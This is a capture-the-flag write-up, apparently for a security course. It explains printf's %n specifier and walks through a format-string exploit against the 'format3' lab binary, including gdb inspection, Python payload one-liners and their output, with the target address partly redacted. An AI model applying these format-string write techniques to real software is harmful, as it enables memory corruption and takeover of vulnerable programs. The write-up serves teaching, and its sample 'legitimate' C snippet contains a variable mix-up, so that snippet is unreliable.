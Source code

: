 ```yaml
---
title:  "format3 Writeup"
date:   2019-03-27 11:08:00
categories: writeup 
layout: post
author: Thomas White
---
```



The basis for the `format` problems are exploiting one of the many variations of `printf` in C. At first glance, it seems odd that a function as simple `printf` would be vulnerable. It just puts characters in the terminal, right? To gain some more insight, let's look at the flags you can use construct a format string out of (table abridged from [wikipeida](https://en.wikipedia.org/wiki/Printf_format_string#Type_field)):

| Character | Description |
|-----------|-------------|
| ...       | ... |
| "d, i"    | int as a signed decimal number ...|
| u         | Print decimal unsigned int.|
| "f, F"    | double in normal (fixed-point) notation ...|
| "e, E"    | double value in standard form ...|
| "g, G"    | double in either normal or exponential notation ... |
| "x, X"    | unsigned int as a hexadecimal number ... |
| o         | unsigned int in octal.|
| s         | null-terminated string.|
| c         | char (character).|
| ...       | ... |
| "a, A"    | double in hexadecimal notation ...|
| **n**     | Print nothing, but **writes the number of characters successfully written so far into an integer pointer** ...|

That looks interesting! It seems `printf` is not only allowed to 'print' to the terminal, but can also 'print' to a memory address. A legitimate use of this could look something like:

```c
int character_limit = 30;
int characters_input = 0;
printf("You input: ");
printf("%s%n\n", user_input, &character_limit);
if(characters_input > character_limit){
    printf("Maximum characters allowed is %d\n", chacter_limit);
    exit(1);
}
```

With `%n` in mind, let's take a brief look at the (abbreviated) source code for `format3`:

```c
int target;


void printbuffer(char *string)
{
  printf(string);
}
 ...

void vuln()
{
 ...
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);

  if(target == 0x01025544) {
    printf("you have modified the target correctly :)\n");
 ...
}
```

We see this time is that we are going to make `target = 0x01025544`. The first step to this is to find where our input is going to be relative to the `printf` call. We can do this by simply running the program.


```bash
python -c 'print "AABB"+" %x"*20' | ./format3

AABB f7f73e20 f7dd8fbb 0 f7f4b000 0 ffb49a68 8048527 ffb4981c 200 f7f4b5c0 f7f7080a f7f86000 f7d77dc8 f7f59580 42424141 20782520 25207825 78252078 20782520 25207825
target is 00000000 :(
```

Notice that in the 15th `%x` we see the beginning of our input AABB as hex `42424141`. Now we know that we need 15 format string flags in order to read the first 4 bytes of our input.

Next we need to find the address of `target` to put in our exploit string. Load up the binary in gdb and run:

```gdb
(gdb) b main
Breakpoint 1 at 0x80485b2: file format3.c, line 35.
(gdb) r
Starting program: /home/vagrant/challenges/format3r/format3
Breakpoint 1, main (argc=0x1, argv=0xffffd5e4) at format3.c:35
35        vuln();
(gdb) info address target
Symbol "target" is static storage at address 0x804????.
```

**Instructor's Note: I've redacted the address partially (via the "????" string) so that the reader can't just copy the solution string at the bottom.**

As we can see, `target` is located at `0x804????`. So what part of memory is that? A quick look at `info proc map` tells us that this address does not lie in the stack, but the output isn't super helpful otherwise. To answer our question, we need to use another utility: `readelf`. A quick call to `readelf -S format3` will give us all of the sections in our ELF[^1] binary and a quick look will tell us that address `0x804????` falls into `.bss`. The `.bss` section is a location in memory that holds unitilized data, all of which will be initialized to zeros when the program starts execution. Ah, so we can conclude that our compiler decided that the `.bss` section was to the best place to put the unitialized global variable `target`. In the absence of ASLR, we also suspect that this address will remain the same both inside and outside of gdb.

[^1]: [ELF](/papers/elf.pdf) is the file format used by Linux executables.

If we pull this all together, our current exploit string looks like `python -c "print '????\x04\x08'+'%x'*15"` which would stop printing after it prints `804????`. We need to subtract 1 `%x` and replace it with a `%n` for the value of `target` to get changed, so let's see what happens when we run

```bash
python -c "print '????\x04\x08'+'%x'*14+'%n'" | ./format3

Hf7fe7e20f7e4cfbb0f7fbf0000ffb6a5b88048527ffb6a36c200f7fbf5c0f7fe480af7ffa000f7debdc8f7fcd580
target is 00000060 :(
```

Great! We are setting values! `target` is now equal to `0x60`. Now we just need to do the character math to make it `target` equal `0x01025544`.

First let's replace all the `%x` with `%c` to ensure that 1 character is printed out per format string flag. Let's leave the last `%x` to allow us to specify padding and get the exact value we want in `target`. `0x01025544` in decimal is `16930116`. Then we do some subtraction:`16930116 characters needed - 13 %c's - 4 (target address) = 16930099 additional characters to print`.

This yields a format string of `python -c "print '????\x04\x08'+'%c'*13+'%.16930099x'+'%n'"`. Let's run it and see what it 
does:

```bash
python -c "print '????\x04\x08'+'%c'*13+'%.16930099x'+'%n'" | ./format3

you have modified the target correctly :)
flag: hello world!
```

